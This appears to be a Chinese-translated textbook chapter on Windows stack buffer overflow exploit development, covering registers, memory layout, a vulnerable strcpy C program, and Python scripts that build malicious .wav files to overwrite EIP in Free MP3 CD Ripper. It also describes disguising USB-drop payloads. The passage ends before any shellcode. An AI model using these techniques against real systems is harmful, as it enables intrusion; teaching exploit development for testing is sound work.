# 第八章。使用 Python、Metasploit 和 Immunity 进行利用开发

在研究或在罕见的参与中，您可能需要开发或修改利用以满足您的需求。Python 是一个很棒的语言，可以快速原型化代码来测试利用，或者帮助未来修改 Metasploit 模块。本章重点介绍编写利用的方法，而不是如何为这些软件产品创建特定的利用，因此可能需要更多的测试来提高可靠性。首先，我们需要了解**中央处理单元**（**CPU**）寄存器以及 Windows 内存在运行时的可执行文件结构。在此之前，在 Windows XP Run Mode 虚拟机上，您需要一些工具来测试这一点。

### 注意

在 Windows XP Run Mode VM 上下载并安装以下组件：Python 2.7、Notepad++、Immunity Debugger、MinGW（带有所有基本包）和 Free MP3 CD Ripper 版本 1.0。还要使用当前的 Kali 版本来帮助生成我们在本章节中要强调的相关细节。

# 开始使用寄存器

这个解释是基于 x86 系统和处理可执行文件指令集的相关寄存器。出于简洁起见，我们不会详细讨论所有寄存器，但我们会描述本章节范围内最重要的寄存器。特别强调的寄存器大小为 32 位，被称为扩展寄存器。

它们被扩展了，因为它们在之前的 16 位寄存器上增加了 16 位。例如，旧的 16 位通用寄存器可以通过简单地去掉寄存器名称前面的 E 来识别，因此 EBX 也包含 16 位 BX 寄存器。BX 寄存器实际上是两个较小的 8 位寄存器 BH 和 BL 的组合。H 和 L 表示高字节和低字节寄存器。有大量关于这个主题的书籍，复制这些信息对我们的目的并不直接有用。总的来说，寄存器被分解为两种形式以便理解，通用寄存器和特殊用途寄存器。

## 理解通用寄存器

四个通用寄存器是 EAX、EBX、ECX 和 EDX。它们被称为通用寄存器，因为数学运算和存储发生在这里。请记住，任何东西都可以被操纵，甚至是寄存器通常应该做的基本概念。尽管如此，总体目的是准确的。

### EAX

累加器寄存器用于基本数学运算和函数的返回值。

### EBX

基址寄存器是另一个通用寄存器，但与 EAX 不同，它没有特定的用途。因此，这个寄存器可以根据需要用于名义存储。

### ECX

计数器寄存器主要用于循环函数和迭代。ECX 寄存器也可以用于通用存储。

### EDX

数据寄存器用于更高级的数学运算，如乘法和除法。这个寄存器还在程序处理过程中存储函数变量。

## 理解特殊用途寄存器

这些寄存器是程序处理过程中处理索引和指向的地方。对您来说，这意味着这是基本利用编写的魔法发生的地方 - 最终，我们试图操纵数据的覆盖发生在这里。这是通过其他寄存器中发生的操作顺序完成的。

### EBP

基指针告诉您堆栈底部在哪里。当首次调用函数时，这指向堆栈顶部，或者设置为旧的堆栈指针值。这是因为堆栈已经移动或增长。

### EDI

目的地索引寄存器用于指向函数。

### EIP

指令指针被认为是基本利用编写的目标。你正在尝试覆盖堆栈上存储的这个值，因为如果你控制这个值，你就控制了 CPU 要执行的下一条指令。因此，当你看到开发人员或利用编写者谈论覆盖 EIP 寄存器上的数据时，要明白这不是一件好事。这意味着程序本身的某些设计已经失败了。

### ESP

堆栈指针显示堆栈的当前顶部，并且在程序运行时会被修改。因此，当项目从堆栈顶部被移除时，ESP 会改变其指向位置。当新函数加载到堆栈上时，EBP 会取代 ESP 的旧位置。

# 理解 Windows 内存结构

Windows 操作系统（OS）的内存结构有许多部分，可以分解为高级组件。要理解如何编写利用并利用糟糕的编程实践，我们首先必须了解这些部分。以下详细信息将这些信息分解成可管理的部分。以下图提供了一个可执行文件的 Windows 内存结构的代表性图表。


现在，这些组件中的每一个都很重要，但我们在大多数利用编写中使用的是堆栈和堆。

## 理解堆栈和堆

堆栈用于有序的短期本地存储。每次调用函数或线程时，都会为该函数或线程分配一个固定大小的唯一堆栈。一旦函数或线程完成操作，堆栈就会被销毁。

堆，另一方面，是全局变量和值以相对无序的方式分配的地方。堆由应用程序共享，内存区域实际上由应用程序或进程管理。一旦应用程序终止，该特定内存区域就会被释放。在这个例子中，我们攻击的是堆，而不是堆。

### 提示

请记住，这里的利用示例通常是用 Perl 编写的，尽管你可以很容易地将代码转换为 Python，正如第二章中所强调的，*Python 脚本的基础*。

为了更好地理解堆和堆栈移动之间的区别，请参见下图，显示了在为全局和局部资源分配内存时的调整。



堆栈从堆栈底部向上构建数据。增长从高内存地址到低内存地址。堆与堆栈相反，它的增长方向相反，朝着更高的地址。

为了理解程序加载到堆栈上的方式，我们创建了一个示例代码片段。通过这段代码，你可以看到主函数如何调用`function1`以及局部变量如何被放置在堆栈上。注意程序通常如何通过调用`function1`流动以及数据如何放置在堆栈上。

```py
int function1(int a, int b, int c)
{
    diffa - b - c;
    sum = a + b + c;
    return sum;
}
int main()
{
    return function1(argv[1], argv[2], argv[3]);
}
```



加载到堆栈上的代码看起来类似于这样，突出显示了信息组件的呈现方式。正如你所看到的，旧的基址指针被加载到堆栈上进行存储，新的 EBP 是旧的堆栈指针值，因为堆栈的顶部已经移动到了新的位置。

放入堆栈的项目被推入堆栈，从堆栈中运行或移除的项目被弹出。堆栈是一个编程概念，被称为**后进先出**（**LIFO**）结构。把它想象成一堆盘子；要有效地移除盘子，你必须一次一个或一组地从顶部取下，否则你会有破碎的风险。当然，最安全的方式是一次一个，虽然需要更长的时间，但是它是可追踪和有效的。了解我们将要用来注入代码的内存结构的最动态部分后，你需要了解 Windows 内存的其余区域，这些区域将作为构建块，我们将操纵它们从注入到 shell。具体来说，我们正在谈论程序映像和**动态链接库**（**DLL**）。

### 注意

记住，我们正在尝试将 shellcode 注入内存，然后使用它来通过诸如 Meterpreter 之类的解决方案访问系统。

## 理解程序映像和动态链接库

简单地说，程序映像是实际可执行文件存储在内存中的地方。**可移植可执行文件（PE）**是可执行文件的定义格式，其中包含可执行文件和 DLL。在内存的程序映像组件中，定义了以下项目。

+   `PE 头`：这包含了 PE 的其余部分的定义。

+   `.text`：该组件包含代码段或可执行指令。

+   `.rdata`：这是只读数据段，包含静态常量而不是变量。

+   `.data`：当可执行文件加载到内存中时，该区域包含静态变量在初始化后的静态变量、全局变量和静态局部变量。该区域可读可写，但大小在运行时不会改变，它是在执行时确定的。

+   `.rsrc`：这个部分是存储可执行文件资源的地方。这包括图标、菜单、对话框、版本信息、字体等。

### 注意

许多渗透测试人员操纵可执行文件的`.rsrc`组件，以改变有效载荷的格式，使其看起来像其他东西。这通常是为了改变恶意有效载荷在**通用串行总线（USB）**驱动器上的外观。想象一下当你进行 USB 投放时，将有效载荷从看起来像可执行文件改为看起来像一个文件夹。大多数人会想要看看文件夹里面有什么，并且更有可能双击一个假的文件夹而不是一个可疑的可执行文件。资源调整器等工具使得对 PE 的这一部分的操纵变得非常容易。

在这里理解 PE 的最后一个组件是 DLL，它包括微软的共享库概念。DLL 类似于可执行文件，但不能直接调用，而是必须由可执行文件调用。DLL 的核心思想是提供一种方法，使能力得以升级，而不需要在操作系统更新时重新编译整个程序。

因此，许多系统操作的基本构建块需要被引用，无论启动周期如何。这意味着即使其他组件将位于不同的内存位置，许多核心 DLL 将保持在相同的引用位置。记住，程序需要特定的可调用指令，许多基础 DLL 都加载到相同的内存区域。

你需要理解的是，我们将使用这些 DLL 来找到一个可靠地放置在相同位置的指令，以便我们可以引用它。这意味着在系统和重启时，只要 OS 和**Service Pack (SP)**版本相同，内存引用就会起作用，如果你使用 OS DLLs。如果你使用完全适用于程序的 DLLs，你将能够跨 OS 版本使用这个漏洞。不过，在这个例子中，我们将使用 OS DLLs。发现的指令将使我们能够告诉系统跳转到我们的 shell 代码，并依次执行它。

我们必须在 DLL 中引用代码的原因是，我们无法确定每次发起这种攻击时我们的代码将被加载到内存的确切位置，因此我们无法告诉系统我们要跳转到的确切内存地址。因此，我们将加载栈与我们的代码，并告诉程序通过引用位置跳转到它的顶部。

请记住，每次执行程序和/或每次重启都可能会改变这一点。栈内存地址根据程序的需要提供，并且我们试图将我们的代码直接注入到这个运行函数的栈中。因此，我们必须利用已知和可重复的目标指令集。我们将详细解释这个过程，但现在，只需知道我们使用 DLL 已知的指令集来跳转到我们的 shell 代码。在这个内存区域，其他组件对我们在这里突出的利用技术来说不那么重要，但你需要理解它们，因为它们在你的调试器中被引用。

### 注意

PE 可以从以下两篇较旧的文章中更好地理解，*Peering Inside the PE: A Tour of the Win32 Portable Executable File Format*，在这里找到[`msdn.microsoft.com/en-us/magazine/ms809762.aspx`](https://msdn.microsoft.com/en-us/magazine/ms809762.aspx)，以及 An In-Depth Look into the Win32 Portable Executable File Format，在这里找到[`msdn.microsoft.com/en-us/magazine/cc301805.aspx`](https://msdn.microsoft.com/en-us/magazine/cc301805.aspx)。

## 理解进程环境块

**进程环境块**（**PEB**）是存储运行进程的非内核组件的地方。存储在内存中的是系统不应该访问内核组件的信息。一些**主机入侵防护系统**（**HIPS**）监视这个内存区域的活动，以查看是否发生了恶意活动。PEB 包含与加载的 DLL、可执行文件、访问限制等相关的详细信息。

## 理解线程环境块

每个进程建立的线程都会生成一个**线程环境块（TEB）**。第一个线程被称为主线程，之后的每个线程都有自己的 TEB。每个 TEB 共享启动它们的进程的内存分配，但它们可以以使任务完成更有效的方式执行指令。由于需要可写访问权限，这个环境驻留在内存的非内核块中。

## 内核

这是为设备驱动程序、**硬件访问层（HAL）**、缓存和程序不需要直接访问的其他组件保留的内存区域。理解内核的最佳方法是，这是操作系统最关键的组件。所有通信都是通过操作系统功能必要地进行的。我们在这里突出的攻击并不依赖于对内核的深入理解。此外，对 Windows 内核的深入理解需要一本专门的书。在定义内存位置之后，我们必须理解数据在其中的寻址方式。

# 理解内存地址和字节序

观察内存时，数据用十六进制字符 0- F 表示，每个字符代表 0-15 的值。例如，十六进制中的值 0 将被表示为二进制的 0000，而 F 的表示将是二进制的 1111。

使用十六进制使得阅读内存地址更容易，也更容易编写。由于我们有 32 位内存地址，因此会有 32 个位置用于特定位。由于每个十六进制值代表四位，等价表示可以用八个十六进制字符完成。请记住这些十六进制字符是成对出现的，以便它们代表四对。

Intel x86 平台使用小端表示法来进行内存寻址，这意味着最不重要的字节先出现。你读取的内存地址必须被反转以生成小端等价表示。要理解手动转换为小端，看一下下面的图片，注意你是在反转对的顺序，而不是对本身。这是因为对代表一个字节，我们按照最不重要的字节先出现的顺序，而不是位，如果是这种情况，十六进制字符也会改变，除非它是 A 或 F。



不用担心，我们有一个小技巧，你经常会看到 Perl 利用程序中加载到变量中的特定内存地址的`pack('V', 0xaa01f24d)`。这是 Perl 的一个很好的特性，它允许你直接将小端表示的内存值加载到一个变量中。Python 的等价表示是`struct.pack('<I', 0xaa01f24d)`，这使得内存地址的表示更简单。如果你查看你的 Metasploit 模块，你可以看到以这种方式表示的预期操作`[target['Ret']].pack('V')`。这提供了基于传递的内存地址的指定目标的返回操作。

### 注意

当你在 Metasploit 中运行你的利用程序并选择目标，比如 Windows XP SP3 或 Windows 2008 R2 时。该目标通常是 EIP 要使用的特定内存地址，用于调用特定操作。通常情况下，它是`jmp esp`来执行注入，稍后在本章中你将看到更多关于逆向 Metasploit 模块的内容。

我们之前提到，我们试图用指向指令的内存值覆盖 EIP 寄存器。这个指令将根据我们在构建利用程序时可以覆盖的数据来选择。EIP 是你的利用代码中唯一需要担心字节序的地方；其余的利用程序都很直接。

### 注意

**小端**和**大端**的命名概念来自*乔纳森·斯威夫特的《格列佛游记》*。简单概括这本书，小端人相信从蛋的小一侧打破蛋壳，而大端人相信从蛋的大一侧打破蛋壳。这个概念也被应用到了内存结构的命名约定中。

# 理解堆栈的操作

要理解我们在编写利用程序时要做的事情，你必须理解内存中发生了什么。我们将向内存的一个区域注入数据，而该区域没有边界检查。这通常意味着一个变量声明了一个特定的大小，当数据被复制到该变量时，没有验证数据是否适合在复制之前。

这意味着可以将更多的数据放入一个变量中，超出预期的数据会溢出到堆栈并覆盖保存的值。其中一个保存的值包括 EIP。下面的图片突出显示了注入数据是如何推送到堆栈上并移动以覆盖保存的值的。



我们将用各种字符来淹没堆栈，以确定我们需要覆盖的区域。首先，我们将从一组大量的 A、B 和 C 开始。在查看调试器数据时看到的数值将告诉我们我们所着陆的堆栈位置。字符类型的差异将帮助我们更好地确定我们独特字符测试的大小需求。下图显示了我们覆盖堆栈时 A、B 和 C 的组合（未显示）：



现在在大致了解 EIP 的位置后，我们可以生成一个大小为 A 和 B 相加的唯一模式。这个唯一模式将被注入回易受攻击的程序。然后我们可以取覆盖 EIP 寄存器的唯一值，并将其与我们的模式进行比较。我们确定我们的大型唯一模式中该值所在的位置，并确定需要推送到堆栈上的数据量，以达到 EIP。

一旦我们确定了 EIP 的位置，我们可以通过检查 DLL 来定位 EIP 中要引用的指令。请记住，程序本身的 DLL 将更具可移植性，并且您的利用程序将在多个 Windows 版本中运行。Windows 操作系统的 DLL 使编写利用程序变得更容易，因为它们是无处不在的，并且具有您正在寻找的所需指令。

在这个利用程序的版本中，我们试图跳转到 ESP，因为可用空间在那里，并且很容易构建一个利用程序来利用它。如果我们使用其他寄存器，我们将不得不寻找一个指令来跳转到该寄存器。然后我们将不得不确定从被操纵的寄存器到 EIP 有多少可用空间。这将有助于确定需要填充堆栈该区域的数据量，因为我们的 shellcode 只会填充该区域的一小部分。

了解了这一点，我们将用**无操作**（**NOPs**）夹住我们的 shell 代码。位于 shellcode 和 EIP 之间的 NOPs 是为了抵消注入的 shellcode。因此，当指令加载到寄存器中时，它们会以适当的块加载。否则，shellcode 将错位。最后，加载到堆栈上的滑梯是为了占据剩余的空间，因此当调用 Jump to ESP 时，代码从顶部滑动到实际的 shellcode。查看以下图片以更好地理解我们正在朝着的方向：



有了这个基本的理解，我们可以开始在一个糟糕创建的 C 程序上使用 Immunity 调试器。

# 理解免疫

我们首先需要了解 Immunity 的设置方式。Immunity 是一个基于 Python 的强大调试器。许多插件，包括 Mona，都是用 Python 编写的，这意味着如果您需要更改某些内容，只需修改脚本。Immunity 的主屏幕分为四个部分，当您挂钩一个进程或执行一个程序时，您可以看到详细信息的输出，如下所示。



这个布局是您将花费大部分时间的基本外观。您可以根据需要调用不同的窗口来查看其他运行组件，比如 DLL。我们稍后会涵盖更多内容，但让我们先从创建一个基本的缓冲区溢出开始。

# 理解基本缓冲区溢出

以下 C 代码缺乏适当的边界检查，以强制在复制时对变量大小施加限制。这是一个简单的糟糕编程的例子，但它是 Metasploit 框架中许多利用程序的基础。

```py
#include <string.h>
#include <stdio.h>
int main (int argc, char *argv[])
{
    if (argc!=2) return 1; 
    char copyto[12];
    strcpy(copyto, argv[1]);  // failure to enforce size restrictions
    printf("The username you provided is %s", copyto);
    return 0;
}
```

我们将这段代码放入一个名为`username_test.cpp`的文件中，然后使用 MinGW 编译它，如下所示：



然后我们可以运行新编译的程序，看它是否返回我们提供的任何文本。



现在，启动 Immunity 并使用测试参数打开`username_test.exe`二进制文件，如下所示。这与 Python 脚本和从命令行运行的功能相同，这意味着您可以监视调试器的输出。



现在，我们需要提供比预期更多的数据，并尝试触发溢出。这在这里很容易做到，因为我们知道这个特定二进制文件的限制，但如果我们不知道这一点，我们将不得不进行相对猜测。为此，我们应该生成一些数据，比如一堆大写 A，然后看看会发生什么。

我们可以每次想要生成参数时，要么重复按住*Shift*键再按字母 A，要么创建一个生成器来进行类似的活动。我们可以再次使用 Python 来帮助我们。看看下面的简单代码，它将根据需要创建数据文件，可以复制并粘贴到调试器中。

```py
data = "A"*150
open('output.txt', 'w').close()
with open("output.txt", "w") as text_file:
    text_file.write(data)
```

其输出如下图所示：



现在，将数据复制并粘贴到 Immunity 调试器参数中，并使用*F7*键逐步运行程序。按住键一段时间后，您将开始看到二进制文件以提供的参数运行，并在寄存器窗格中处理时，EAX 寄存器中将捕获到 41414141。每个 41 代表**美国信息交换标准代码**（**ASCII**）的字母 A。运行程序结束后，您应该看到 EIP 被字母 A 溢出。

### 注意

在本示例中，您将看到的内存地址与您自己的环境中的地址不同，因此您需要确保使用您的内存地址生成最终脚本，而不是使用这些图像中看到的地址。



因此，我们知道我们提供了足够的 A 来覆盖 EIP。这意味着我们已经发现我们可以覆盖 EIP，但我们没有为其提供任何有用的内容，并且我们不知道它实际上在堆栈中的位置。基本上，这意味着这个活动使我们的程序崩溃，而不是我们想要的 - 获得一个 shell。

这提出了关于制作利用程序的另一个问题；通常，设计不良的利用程序，或者无法设计以在特定漏洞的内存限制中工作的利用程序，将产生**拒绝服务**（**DoS**）条件。我们的目标是在计算机上获得 shell，为此，我们需要操纵推送到程序中的内容。请记住，当您考虑服务时，有关**远程代码执行**（**RCE**）攻击的报告可用，而唯一可用的公开利用程序会导致 DoS 攻击。这意味着很难在该环境中实现 shell 访问，或者研究人员在该环境中创建利用程序的能力可能受到限制。

### 提示

在进行过程中，如果您的寄存器出现错误，例如下图中的错误，那么您没有正确确定后续开发的缓冲区大小。



现在您已经了解了将数据注入缓冲区并溢出的基础知识，我们可以针对一个真正易受攻击的解决方案。我们将使用 Free MP3 CD Ripper 程序作为示例。这个程序在开发利用程序方面提供了非常少的实际价值，但开发它是一个相对简单的练习。

# 编写基本缓冲区溢出利用

我们将利用 Free MP3 CD Ripper 软件程序的版本 1。为此，我们需要从以下位置下载并安装该产品[`free-mp3-cd-ripper.en.softonic.com/`](http://free-mp3-cd-ripper.en.softonic.com/)。为了利用该程序的弱点，我们将使用以下 Python 脚本，它将生成一个恶意的.wav 文件，可以上传到该程序中。数据将被解释，并将创建一个我们可以观察并尝试调整和构建利用的溢出条件。如前所述，我们将加载多种不同的字符到该文件中，以便我们可以估计存储的 EIP 值的相对位置。

```py
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4000
fill +="B"*1000
fill +="C"*1000
exploit = fill
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

这个脚本将用四千个 A，一千个 B 和一千个 C 填充恶意的波形文件。现在，打开 Immunity 程序，如下所示：



使用您的新 Python 脚本生成恶意的波形文件，如下所示：



然后，加载具有易受攻击程序的新文件，如下所示：



结果是，我们得到了一个坚实的 Bs 崩溃，如下所示，这意味着我们的 EIP 覆盖在四千到五千个字符之间。



此外，我们看到 EBX、EBP、ESI 和 EDI 中都有 Bs，但 ESP 呢？我们需要找到放置我们的 shell 代码的空间，最简单的方法是使用 ESP。所以，我们将转储该寄存器的内容——您可以通过右键单击寄存器并在 Immunity 的左下角窗格中查看详细信息来执行此操作，如两个图像组件所示。



正如您所看到的，我们也用 Bs 填充了 ESP。我们需要缩小可以放置我们的 shellcode 和 EIP 位置的位置，因此我们将使用 Metasploit 的`pattern_create.rb`。首先，我们需要找到 EIP，所以我们将生成五千个唯一的字符。当您使用此脚本时，您将能够注入数据，然后确定覆盖的确切位置。下图突出显示了如何生成唯一数据集。


现在，将字符从输出文件中复制出来，并将它们作为新的`.wav`文件再次输入程序。当我们加载新的`.wav`文件时，我们看到程序再次崩溃，并且一个值覆盖了 EIP。



我们需要复制该值，并使用它来确定我们的利用所需的实际偏移量，使用`patter_offset.rb`脚本，通过输入内存地址和我们最初请求的字符数。



所以，现在我们将我们的填充变量更新为该值。我们必须验证这些垃圾数据是否会导致我们直接落在 EIP 上，以便可以被覆盖。可以执行一个测试用例来验证我们已经准确找到了 EIP，通过使用以下代码明确设置它：

```py
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x42424242)
exploit = fill + eip
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

该代码的输出产生了以下结果，这意味着我们已经准确找到了 EIP 的位置：



现在，记住我们在测试中验证了我们覆盖了 ESP。我们将使用 ESP 和 EIP 之间的区域来保存我们的 shellcode。因此，我们正在寻找 `jmp esp` 命令，并且我们将使用微软的共享库来实现。DLL 在每个程序周期中都会被加载和重复使用。这意味着我们可以查看程序使用的 DLL，并尝试找到一个可以用来引用 `jmp esp` 命令的内存位置。然后，我们可以用可行的 DLL 中 `jmp esp` 指令的内存位置替换 EIP 值。

如果你按下 *Alt* + *E*，你将会看到一个新窗口，其中包含了整个受影响的程序 DLL 和系统 DLL。请看下面的截图，突出显示了这些 DLL：

